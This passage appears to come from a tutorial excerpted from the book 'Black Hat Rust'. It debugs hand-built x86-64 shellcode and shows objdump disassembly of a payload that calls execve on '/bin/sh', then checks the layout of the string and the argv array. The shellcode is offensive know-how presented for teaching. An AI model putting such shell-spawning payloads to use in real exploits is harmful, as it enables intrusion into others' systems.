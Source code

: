 Hmmmm. That was not expected... Let's investigate.


> This post is an excerpt from my book [Black Hat Rust](https://kerkour.com/black-hat-rust)


## Investigating the crash


### Dumping the shellcode

First, we disassemble the shellcode using `objdump` to see what looks like the generated code.


```shell
$  make dump_shell
# ...
Disassembly of section .data:

00000000 <.data>:
   0:   48 8d 3d 0f 00 00 00    lea    rdi,[rip+0xf]        # 0x16
   7:   48 8d 35 22 00 00 00    lea    rsi,[rip+0x22]        # 0x30
   e:   6a 3b                   push   0x3b
  10:   58                      pop    rax
  11:   31 d2                   xor    edx,edx
  13:   0f 05                   syscall
  15:   c3                      ret
  16:   2f                      (bad)          # "/bin/sh\x00"
  17:   62                      (bad)
  18:   69 6e 2f 73 68 00 00    imul   ebp,DWORD PTR [rsi+0x2f],0x6873
  1f:   00 16                   add    BYTE PTR [rsi],dl
  21:   00 00                   add    BYTE PTR [rax],al
  23:   00 00                   add    BYTE PTR [rax],al
  25:   00 00                   add    BYTE PTR [rax],al
  27:   00 08                   add    BYTE PTR [rax],cl
  29:   00 00                   add    BYTE PTR [rax],al
  2b:   00 00                   add    BYTE PTR [rax],al
  2d:   00 00                   add    BYTE PTR [rax],al
  2f:   00 20                   add    BYTE PTR [rax],ah
  31:   00 00                   add    BYTE PTR [rax],al
  33:   00 00                   add    BYTE PTR [rax],al
  35:   00 00                   add    BYTE PTR [rax],al
  37:   00 00                   add    BYTE PTR [rax],al
  39:   00 00                   add    BYTE PTR [rax],al
  3b:   00 00                   add    BYTE PTR [rax],al
  3d:   00 00                   add    BYTE PTR [rax],al
  3f:   00                      .byte 0x0
```


Other than the large empty array that uses precious bytes, at first glance, everything looks fine.

* At `0x17` we have the string `"/bin/sh\x00"`
* At `0x30` we have our `ARGV` array which contains a reference to `0x00000020`, which itself is a reference to `0x00000017`, the `"/bin/sh\x00"` `C` string, which is exactly what we wanted.
